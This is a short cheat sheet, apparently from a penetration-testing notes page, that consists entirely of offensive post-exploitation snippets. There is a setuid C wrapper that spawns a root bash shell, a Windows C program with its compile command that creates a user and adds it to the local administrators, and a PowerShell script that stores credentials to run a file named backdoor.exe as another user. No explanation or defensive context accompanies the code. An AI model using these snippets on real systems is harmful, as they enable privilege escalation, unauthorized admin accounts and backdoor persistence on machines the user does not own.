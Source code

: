 # Useful Code

### Setuid.c (Linux - Set Owner User ID)

```c
int main(){
  setgid(0);
  setuid(0);
  system("/bin/bash");
  return 0;
}
```

### Useradd.c (Windows - Add user)

```c
#include <stdlib.h> /* system, NULL, EXIT_FAILURE */

int main ()
{
  int i;
  i=system ("net user <username> <password> /add && net localgroup administrators <username> /add");
  return 0;
}

# Compile
i686-w64-mingw32-gcc -o useradd.exe useradd.c
```

### Powershell Run As (run file as another user)

```powershell
echo $username = '<username>' > runas.ps1
echo $securePassword = ConvertTo-SecureString "<password>" -AsPlainText -Force >> runas.ps1
echo $credential = New-Object System.Management.Automation.PSCredential $username, $securePassword >> runas.ps1
echo Start-Process C:\Users\User\AppData\Local\Temp\backdoor.exe -Credential $credential >> runas.ps1
```
